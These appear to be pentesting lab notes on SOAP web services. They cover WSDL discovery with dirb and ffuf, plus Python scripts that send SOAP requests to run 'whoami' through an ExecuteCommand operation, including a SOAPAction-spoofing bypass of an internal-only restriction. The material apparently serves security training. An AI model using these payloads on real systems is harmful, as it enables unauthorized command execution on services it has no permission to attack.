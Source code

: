 #xml
#### WSDL file location
```bash
dirb http://10.129.164.82:3002

+ http://<TARGET IP>:3002/wsdl (CODE:200|SIZE:0)                            
DOWNLOADED: 4612 - FOUND: 1
```

If curl `<ip>/wsdl` response is empty:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.164.82:3002/wsdl?FUZZ' -fs 0 -mc 200
```

`curl http://10.129.164.82:3002/wsdl?wsdl`

File may be found at example.wsdl, ?wsdl, /example.disco, ?disco 

##### Request example
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
##### SOAPAction spoofing
If the request abive is restricted to the internal network only, we can bypass it:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
